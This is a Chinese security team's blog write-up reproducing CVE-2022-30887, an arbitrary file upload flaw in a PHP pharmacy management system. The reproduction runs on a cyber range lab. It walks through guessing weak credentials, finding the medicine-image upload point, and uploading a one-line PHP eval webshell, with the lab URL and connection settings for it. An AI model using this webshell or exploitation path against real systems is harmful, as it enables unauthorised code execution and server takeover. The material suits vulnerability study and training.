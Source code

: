 #  CVE-2022-30887（文件上传漏洞）   
原创 y@n1n  暗影安全   2023-08-04 17:45  
  
漏洞简介  
  
……  
  
    多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。  
该CMS中  
  
php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。  
  
  
漏洞复现  
  
……  
  
邮箱登录：  
（  
账户名/密码：  
  
mayuri.infospace@gmail.com/mayurik）  
  
漏洞类型：文件上传漏洞  
- 滑至页面最下端，发现跳转连接Mayuri K，点击跳转连接。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvSfticK6Tn6IyNWuibqLeVOs6tCPpNEh1BzG6yJXyEaQ6G6p3O6MDcCJAg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvS4bL59MeBJLPTIUoPZqfF3Nv3vkJlvgKG7zqaibicC5NOzmf6E1Webtug/640?wx_fmt=png "")  
  
- 任意点击页面，意外发现弹出了作者邮箱。  
  
（mayuri.infospace@gmail.com）  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvS9rGM0xBO5P90KkXD1m5PHUuiaQMwTiaKZhCKicoGzf0PWT2JyoCBkNcGg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvSKfjFBY9ZgicSoKSR6kDJdcnALgodHUNyWDwt3xX4Ahplr0jUP6ZCp3g/640?wx_fmt=png "")  
- 弱口令尝试登录（Mayurik 、Mayuri  、mayuri 、mayurik，最终mayurik登录成功)。  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvSYHgwLdmB4yibiaLblNBK9lJtAEiaQ7icTJdjCUtJtRRrPqjAuhZyra7eVA/640?wx_fmt=png "")  
  
- 经过摸索探寻（其他尝试点本文略）终于找到了上传点Medicile Add Medicine。  
![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79apAicqnkCH6JPicSjsial5CvSQ2QXv1gLwvDKCFF9HFgYbjiajQc5EVDXda5iadW8T9zRTelQeficZ2tLw/640?wx_fmt=png "")  
  
- 上传webshell(一句话木马），如图。  
<?php @eval($_POST['cmd']);?>  #一句话木马连接webshell。添加url:http://eci-2ze6nny1geql8lp55w5x.cloudeci1.ichunqiu.com/assets/myimages/cmd.php(assets/myimages/cmd.php右键源码查找） 连接密码：cmd编码器：选择base64  
****  
**关于我们**  
  
“  
  
团队由工控安全、逆向分析、安全开发、漏洞挖掘等众多领域专家组成;  
  
  
在那动荡的几年中，我们支撑完成若干安全一线项目，安全应急省级项目我们在第一线、国家基础设施安全爆发我们在第一线、XX行动我们首当其冲;  
  
  
在这几年中我们遇到了很多好朋友，与众多安全中立安全团队保持良好合作，我们互通有无，积极的分享那本该属于黑客精神的东西;  
  
  
希望我们有一段酣畅淋漓的合作;  
  
  
我们的公众号:暗影安全  
  
  
我们的官网: www.shadowsec.org  
  
  
我们一直在...  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PrTu58FA79bwwicW0Lg5LyzhwsucDdaP0hr0FHcjJAFUFsXjCHqia5BbgavliabU5SlZ6icq5jNN3VoDoGgRQTJFRw/640?wx_fmt=jpeg "")  
  
  
  
本文漏洞环境来源于i春秋云境靶场  
  
  
